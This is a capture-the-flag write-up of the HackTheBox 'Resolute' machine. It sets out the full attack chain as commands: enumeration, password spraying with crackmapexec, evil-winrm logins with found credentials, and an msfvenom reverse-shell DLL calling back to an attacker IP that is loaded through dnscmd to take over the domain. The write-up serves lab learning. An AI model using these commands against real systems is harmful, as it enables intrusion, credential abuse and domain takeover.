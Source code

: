 
## Reconnaissance

### nmap 

```
nmap -sC -sV -oN resolute_light 192.168.96.155
```

![](machine/resolute/IMG/0.png)
- Service 
> DNS port 43
> Kerberos port 88
> rpc port 135, 594
> SMB port 445 
> ldap port 636
> winrm port 5985

### smbclient 

```
smbclient 
```

![[machine/resolute/IMG/1.png]]

###  rpcclient 

```
rpcclient -U "" -N 10.129.96.155
```

![[machine/resolute/IMG/2.png]]

```
enumdomusers
```

![[machine/resolute/IMG/3.png]]
![[machine/resolute/IMG/30.png]]


```
queryuser 0x1f4
```

![[machine/resolute/IMG/4.png]]

```
querydispinfo
```

![[machine/resolute/IMG/5.png]]

- Get Credentials 

```
marko / Welcome123!
```

![[machine/resolute/IMG/6.png]]

- Using this credential to list smb 
- Failed 

```
crackmapexec smb 10.129.96.155 --shares -u 'marko' -p 'Welcome123!'
```

![[machine/resolute/IMG/7.png]]

## Exploit 

- Create  user list by rpc enum domain users result 
![](machine/resolute/IMG/8.png)
- Spray Password Attack
```
crackmapexec smb 10.129.96.155 -u users.txt -p "Welcome123\!" --shares
```

![[machine/resolute/IMG/9.png]]

![[machine/resolute/IMG/10.png]]

- evil-winrm login by malanie
```
evil-winrm -i 10.129.96.155 -P 5985 -u 'malanie' -p 'Welcome123!'
```

![[machine/resolute/IMG/11.png]]

- Confirm current user 
```
whoami
```

![[machine/resolute/IMG/12.png]]

- List C directory

![[machine/resolute/IMG/13.png]]

- List PSTranscripts
```
ls -force
```

![[machine/resolute/IMG/14.png]]

- List \PSTranscripts\20191203
```
ls -force
```

![[machine/resolute/IMG/15.png]]

- Check text file 

![[machine/resolute/IMG/16.png]]

- Find credential 
```
ryan / Serv3r4Admin4cc123!
```

![[machine/resolute/IMG/17.png]]

![[machine/resolute/IMG/18.png]]

## Privilege Escalation 

- Login by evil-winrm

```
evil-winrm -i 10.129.96.155 -P 5985 -u 'ryan' -p Serv3r4Admin4cc123!
```

- List ryan directory

![[machine/resolute/IMG/19.png]]

- Confirm current user
```
whoami 
```
- List desktop (include hidden file)
- Find note text 
- Read note text 
```
ls -force 
type note.txt
```

![[machine/resolute/IMG/20.png]]

- Generate dll payload 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.17.145 LPORT=1337 -f dll -o PE2.dll
```

![[machine/resolute/IMG/21.png]]

- Launch impacket-smbserver 
```
smbserver.py s /root
```

![[machine/resolute/IMG/22.png]]

- Execute dnscmd to re-config the dns
```
dnscmd.exe /config /serverlevelplugindll \\10.10.17.145\s\PE2.dll
```

![[machine/resolute/IMG/23.png]]

```
sc.exe stop dns 
```

![[machine/resolute/IMG/24.png]]

```
sc.exe start dns 
```

![[machine/resolute/IMG/25.png]]

- Confirm smbserver get response

![[machine/resolute/IMG/26.png]]

- Confirm nc get reverse shell

![[machine/resolute/IMG/27.png]]

- Confirm root user and ipconfig 

![[machine/resolute/IMG/28.png]]

- Get root flag

![(./IMG/root flag.png)
## Reference 

- [Write-up](https://0xdf.gitlab.io/2020/05/30/htb-resolute.html)
- [AD security group - dnsadmin](https://learn.microsoft.com/zh-tw/windows-server/identity/ad-ds/manage/understand-security-groups#dnsadmins)
- [Windows Privilege Escalation: DnsAdmins to DomainAdmin](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/)
- [域渗透——利用dnscmd在DNS服务器上实现远程加载Dll](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8dnscmd%E5%9C%A8DNS%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E5%AE%9E%E7%8E%B0%E8%BF%9C%E7%A8%8B%E5%8A%A0%E8%BD%BDDll)
- [AD Security - [Day25] 一起來學 AD 安全吧！： DnsAdmins 提權](https://ithelp.ithome.com.tw/articles/10307044?sc=iThelpR)

###### tags: `HackTheBox`